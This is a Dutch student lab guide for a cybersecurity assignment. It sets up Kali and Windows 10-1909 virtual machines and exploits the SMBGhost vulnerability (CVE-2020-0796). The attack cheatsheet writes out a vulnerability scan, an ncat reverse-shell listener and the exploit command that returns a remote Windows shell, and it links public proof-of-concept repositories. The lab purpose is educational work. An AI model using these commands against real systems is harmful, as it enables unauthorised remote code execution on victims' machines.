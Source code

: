 # Handleiding

SMBGhost Vulnerability  
CVE-2020-0796

Doel: Remote Excecution   
Target: Windows 10-1909  

Team:   
Demi De Fré   
Abdul Rehman Shafaquet    
Arthur Neirynck  

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.  
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Open de Kali en Windows VM
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht)

## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

De scripts die we gebruiken voor de aanval zijn beschikbaar op onze [Github](https://github.com/abdulnsh/cybersecurity_vr_opdracht).  

Hier vermelden we toch voor de zekerheid onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [](https://github.com/jiansiting/CVE-2020-0796-Scanner) (Deze hebben we niet echt nodig, maar is er toch voor zekerheid)   

### Stap 1: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```
* We gebruiken het ip adres van de target als parameter.

### Stap 2: Remote excecution uitvoeren
* Juiste target offsets die passen voor slachtoffer zijn windows versie
*Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`
* `target_ip` = 192.168.1.17  
  `reverse_shell_ip` en `reverse_shell_port` zijn het ip address en poort waarop ncat luistert.
*Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 3: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










